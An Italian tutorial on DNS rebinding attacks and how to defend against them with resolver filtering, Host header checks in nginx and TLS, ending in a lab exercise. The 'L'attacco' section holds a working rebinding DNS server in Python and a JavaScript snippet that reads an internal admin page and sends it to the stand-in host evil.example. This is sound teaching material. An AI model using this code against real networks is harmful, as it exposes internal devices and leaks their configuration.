

## Perché conta

Il router di casa, la stampante, il NAS, la dashboard di Docker, un'API di sviluppo su `localhost`: molti
servizi interni sono protetti solo dal fatto di non essere raggiungibili da Internet. Il **DNS rebinding**
smonta questa assunzione: l'attaccante non deve attraversare il firewall, perché è la **vittima stessa** a
portargli dentro una pagina web, e quella pagina, eseguita nel browser, sta già dentro la rete.

Il bersaglio non è il DNS in sé ma il modello di fiducia del browser: la **same-origin policy** confronta
il *nome* (`schema + host + porta`), non l'indirizzo IP. Se il nome cambia destinazione a metà strada,
il browser continua a considerare tutto "same-origin".

## Come funziona

L'attaccante registra `evil.example` e controlla il suo name server autoritativo, che risponde con TTL
bassissimo e indirizzi diversi a seconda della richiesta.



Per il browser l'origine `http://evil.example` non è mai cambiata, quindi lo script può **leggere**
la risposta (con CORS un'origine diversa non sarebbe leggibile). I tempi dipendono da TTL e da quanto a
lungo il browser tiene in cache la risoluzione (*DNS pinning*):

$$T_{rebind} \approx \max(TTL_{attaccante},\ T_{pin},\ TTL_{minimo\ del\ resolver})$$

Il TTL basso da solo non basta: resolver che impongono un TTL minimo (ad esempio 60 s) o browser che
fissano l'IP allungano $T_{rebind}$ ma non lo eliminano. Per questo la difesa efficace non gioca sui tempi.

## L'attacco

In laboratorio si può riprodurre con un name server che alterna due risposte. Esempio minimo con
`dnslib` (solo su una rete di prova che controlli):

```python
from dnslib import DNSRecord, RR, A, QTYPE
from dnslib.server import DNSServer, BaseResolver

PUBLIC, INTERNAL = "203.0.113.10", "192.168.1.1"

class Rebind(BaseResolver):
    n = {}
    def resolve(self, req, handler):
        q = str(req.q.qname); c = self.n.get(q, 0); self.n[q] = c + 1
        ip = PUBLIC if c == 0 else INTERNAL   # prima pubblico, poi interno
        r = req.reply()
        r.add_answer(RR(q, QTYPE.A, rdata=A(ip), ttl=1))
        return r

DNSServer(Rebind(), port=53).start()
```

Lo script servito dalla pagina fa poi una richiesta verso il proprio stesso nome e la inoltra:

```javascript
setTimeout(async () => {
  const r = await fetch("/admin/config");        // ora risolve a 192.168.1.1
  navigator.sendBeacon("https://evil.example/x", await r.text());
}, 3000);
```

Il servizio interno vede `Host: evil.example` e, se non lo controlla, risponde come a qualunque client.
Strumenti come `Singularity of Origin` automatizzano la sequenza; per la verifica difensiva basta
guardare cosa arriva al servizio:

```bash
sudo tcpdump -ni any 'tcp port 80 and host 192.168.1.1' -A | grep -i '^Host:'
```

## La difesa

Si difende su tre livelli: resolver, server, browser.

**1. Il resolver scarta risposte pubbliche che puntano a indirizzi privati.** Con Unbound:

```yaml {hl_lines=[2,3,4,5,8]}
server:
    private-address: 10.0.0.0/8
    private-address: 172.16.0.0/12
    private-address: 192.168.0.0/16
    private-address: 127.0.0.0/8
    private-address: fd00::/8
    # eccezione: la tua zona interna legittima
    private-domain: "corp.example"
```

Con `dnsmasq` l'equivalente è:

```ini {hl_lines=[1,2]}
stop-dns-rebind
rebind-localhost-ok
rebind-domain-ok=/corp.example/
```

**2. Il servizio interno valida l'header `Host`**, come impone il buon senso di RFC 9110: un nome sconosciuto
non deve ricevere contenuto. Esempio nginx:

```nginx {hl_lines=[2,3,4]}
server {
    listen 80 default_server;
    server_name _;
    return 421;               # Host non riconosciuto
}
server {
    listen 80;
    server_name nas.corp.example;
    # ... configurazione reale
}
```

**3. Autenticazione sempre, anche in LAN**, e HTTPS: un certificato per `nas.corp.example` non è valido
per `evil.example`, quindi il rebinding fallisce nel handshake TLS. I browser moderni aggiungono
protezioni come *Private Network Access* per le richieste da siti pubblici verso reti private, ma non
vanno considerate l'unica barriera.

## Lab

Obiettivo: verificare che il resolver blocchi il rebinding.

1. Avvia il name server dell'esempio su una VM e punta `evil.lab` a lui con una delega nel resolver di prova.
2. Interroga due volte: `dig @127.0.0.1 evil.lab +short` e ripeti dopo 2 secondi.
3. Attiva `private-address` su Unbound e ripeti la prova.


<details><summary>Soluzione</summary>
<p>Senza protezione la prima risposta è <code>203.0.113.10</code> e la seconda <code>192.168.1.1</code>.
Con <code>private-address</code> attivo, Unbound scarta la seconda risposta: <code>dig</code> restituisce
<code>SERVFAIL</code> oppure nessun record <code>A</code>, e nei log compare l'indirizzo scartato.
Per escludere falsi positivi, aggiungi <code>private-domain: "evil.lab"</code> e verifica che la risposta
interna torni a passare: significa che la regola faceva davvero il suo lavoro.</p>
</details>


## Conclusione

Il rebinding non rompe il DNS né il browser: sfrutta il fatto che la fiducia sia legata a un nome mutevole
invece che a un indirizzo. La difesa è a strati: il resolver filtra le risposte pubbliche verso IP privati,
i servizi interni controllano `Host` e richiedono autenticazione, TLS lega il certificato al nome. Chi
espone anche solo un'interfaccia web su `localhost` dovrebbe trattarla come esposta a Internet.

**Prossimo nella serie:** altri approfondimenti sul DNS in [DNS tunneling]() · [Torna alla roadmap]()
